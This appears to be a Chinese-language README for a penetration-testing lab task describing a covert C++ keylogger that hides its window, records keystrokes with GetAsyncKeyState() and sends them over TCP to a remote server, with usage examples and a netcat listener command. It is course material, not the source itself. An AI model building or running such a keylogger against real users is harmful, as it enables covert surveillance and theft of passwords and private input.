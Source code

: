 ## 任务 2：创建一个简单的键盘记录器，将所有收集到的信息发送回渗透测试人员

使用 C++ 编写一个隐蔽运行的程序，收集用户的击键并通过网络将它们发送回选择的地址。

**提示**：

- 您可能希望利用`ShowWindow()`函数对目标隐藏窗口。
- 对于这个工具的联网能力，如果使用 TCP 连接会更简单。利用`Winsock`库。
- 对于捕获键，您可能需要使用`GetAsyncKeyState()`函数。
- 对于接收数据，您可以使用 netcat 或 ncat 之类的工具 - 不要自己编写。
- 您可以将通过 RDP 连接的机器用作受害者机器。您不需要将创建的键盘记录程序发送到其他任何地方。

**文件名：**`keylog.cpp`

**用法：**`keylog.exe server-name`

**用法详解：**

* 当不传入任何命令参数时，程序会提示用户正确的用法。

  输入：`keylog.exe`

  输出：`usage: keylog.exe server-name`

* 传入一个命令参数，为服务器的域名或者是IP地址。程序会将用户在正在使用的进程中的输入内容发送到服务器。

  输入：`keylog.exe 192.168.248.129`，或者是`keylog.exe www.baidu.com` 

* 在源码中，将默认端口修改为服务器监听的端口：

  ```cpp
  #define DEFAULT_PORT "27015"
  ```

  在服务器上进行监听

  ```shell	
  nc -lvp 27015
  ```

* 在源码中，可以选择窗口为（可见/不可见）

  ```cpp
  #define visible // (visible / invisible)
  ```

* 当服务器关闭监听的端口，客户端会看到如下提示：

  ```shell
  [ERROR] send failed with error: 10053
  
  [WARING] The server has stopped listening on the port! The program will exit.
  ```

**环境要求：**以下代码在Visual Studio 2019 16.10 ，C++ 语言标准：默认(ISO C++14 标准)测试通过。

**缺点：**没有将WINSOCK功能进行单独封装。

